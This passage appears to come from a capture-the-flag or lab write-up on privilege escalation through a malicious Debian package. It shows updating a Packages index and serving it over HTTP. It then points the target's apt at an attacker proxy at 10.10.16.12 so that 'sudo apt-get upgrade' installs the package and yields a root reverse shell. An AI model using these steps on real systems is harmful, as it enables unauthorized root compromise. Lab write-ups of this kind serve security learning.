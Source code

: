 Update the `Packages` file with accurate SHA256 and size values:
```
sha256sum telnet.deb
du -b telnet.deb
```

```
7ab7c37a915882211f47852f813b299e72fd6d60f8487abd0976a75d05d64856  telnet.deb
720     telnet.deb
```

![[002 Attachment/Pasted image 20250723000630.png]]  

![[002 Attachment/Pasted image 20250723000711.png]]

Compress the `Packages` file:  
![[002 Attachment/Pasted image 20250723000748.png]]



Finally, serve the malicious `.deb` and package files using Python's HTTP server.  
On the target machine, run:
```bash
export http_proxy="http://10.10.16.12:80"
sudo apt-get update
sudo apt-get upgrade
```

We see a `200 OK` response:  
![[002 Attachment/Pasted image 20250723020236.png]]

This confirms that the malicious `.deb` package was successfully accepted by the target.  
Once the command `sudo apt-get upgrade` is executed, the reverse shell is triggered and connects back to our listener.

![[002 Attachment/Pasted image 20250723020503.png]]



Finally, we receive a reverse shell as `root` on port 9999:  
![[002 Attachment/Pasted image 20250723020444.png]]  

![[002 Attachment/Pasted image 20250723021045.png]]  

![[002 Attachment/Pasted image 20250723020554.png]]





